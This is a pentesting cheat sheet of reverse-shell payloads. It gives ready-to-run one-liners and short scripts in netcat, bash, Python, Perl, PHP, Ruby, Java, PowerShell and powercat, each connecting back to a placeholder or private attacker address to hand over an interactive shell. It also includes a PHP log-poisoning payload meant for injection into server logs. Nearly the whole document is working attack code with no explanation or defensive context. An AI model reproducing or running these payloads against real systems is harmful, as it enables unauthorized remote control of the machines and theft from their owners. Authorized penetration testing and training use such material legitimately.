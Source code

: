 # Reverse Shells

## Netcat 

Netcat without -e
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

Netcat with -e
```bash
nc -e /bin/sh 10.0.0.1 1234
```

## Bash

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

File version
```python
import socket, subprocess,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("$IP", $PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

## Perl

```perl
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP

```php
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## Log Poisoning PHP
```php
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f') ?>
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("$IP",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$IP/$PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Powershell 
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

## Powercat
More Powercat related at [[Powercat-Cheatsheet]]
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```